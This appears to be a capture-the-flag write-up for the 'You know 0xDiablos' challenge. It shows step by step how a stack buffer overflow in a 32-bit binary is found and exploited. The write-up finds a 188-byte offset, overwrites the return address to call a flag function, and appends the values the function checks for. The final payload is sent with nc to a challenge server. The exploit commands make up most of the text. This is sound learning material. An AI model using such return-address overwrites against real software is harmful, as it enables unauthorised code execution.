



# You know 0xDiablos
## challenge description
> I missed my flag

## trying a large input to cause an overflow

- by executing the binary with a large input delivers us a segmentation fault

```bash
python2 -c "print 'A' * 300 " | ./vuln
```

`37978 segmentation fault (core dumped)  ./vuln`

## investigating the error

- by debugging the binary with `gdb` and the same input we get the following error message: Cannot access memory at address `0x41414141`

> this is the part of the input which overwrites the return pointer which is restored when the `vuln` functions returns the `main` function

- next we can use an unique pattern to get the exact part of the input which overflows
- using this pattern: `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9` results in the following error: `Cannot access memory at address 0x33674132`
- calculating the offset results in: `188`

> Note: the memory address is in little-endian

## crafting the payload

- in order to print the contents of of the flag we have to manipulate the callflow to call the `flag` function at address: `0x80491e2`

```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08'" | ./vuln
```

results in: 

```
You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hurry up and try in on server side.
```

Hurray!!! Lets test it: 

```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08'" | nc 165.232.98.156 30180

You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

- no flag ... let's investigate

## fix callflow

- by checking the `flag` function we have to pass three checks in order to simulate the envionment on the server and print the flag

1. there have to be a file called `flag.txt` 

2. `$rbp+0x8` has to be equal to `0xdeadbeef`

3. `$rbp+0xc` has to be equal to `0xc0ded00d`


- luckily we can manipulate `$rbp+0x8` and `$rbp+0xc` by extending the input: 
```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08' + '\x41\x42\x43\x44' + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'" | nc 165.232.98.156 30180
```

- we get the flag 


